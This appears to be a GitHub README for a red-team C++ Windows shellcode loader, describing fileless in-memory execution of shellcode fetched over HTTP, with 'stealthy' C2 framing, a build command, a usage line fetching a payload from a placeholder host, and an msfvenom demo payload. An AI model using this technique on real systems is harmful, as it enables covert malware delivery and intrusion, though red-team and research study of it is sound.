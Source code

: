 A minimal C++ shellcode loader for Windows written for red team, malware research, and educational purposes.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAlloc`
- Executing shellcode directly from memory (fileless execution)
- Using the `wininet` API for stealthy C2 traffic

> 🔐 Educational use only. Unauthorized use of this code is illegal.


## 📂 Filename

**loader.cpp** – Console-based shellcode loader (C++)


## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`)
- **Execution**: Transfers control to shellcode via a function pointer


## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target


## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ loader.cpp -o loader.exe -static -lwininet -s -Wl,-subsystem,console
```


## 🧪 Usage

```bash
loader.exe http://<ip_address>/shellcode.bin
```


## 🛠️ Example Shellcode Generation

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o enc.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
loader.exe http://127.0.0.1:30001/enc.bin
```
